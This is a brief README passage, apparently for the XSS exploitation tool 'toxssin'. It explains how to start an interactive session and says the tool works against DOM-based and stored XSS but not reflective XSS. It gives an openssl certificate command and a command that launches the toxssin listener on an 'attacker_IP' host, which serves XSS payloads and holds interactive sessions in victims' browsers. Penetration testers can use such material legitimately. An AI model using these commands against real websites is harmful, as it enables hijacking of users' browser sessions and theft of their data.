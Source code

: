 # 02 - Interact Session

Note: you have to run this as root. Currently I tested two vulnerable XSS types and they are **DOM-Based XSS** and **Stored XSS**. **Reflective XSS** doesn't work. 

```
# openssl req -x509 -newkey rsa:2048 -passout:"<passphrase>" -keyout private.key -out certificate.crt -days 365

# toxssin -u https://<attacker_IP> -c /absolute/path/to/certificate.crt -k /absolute/path/to/private.key
```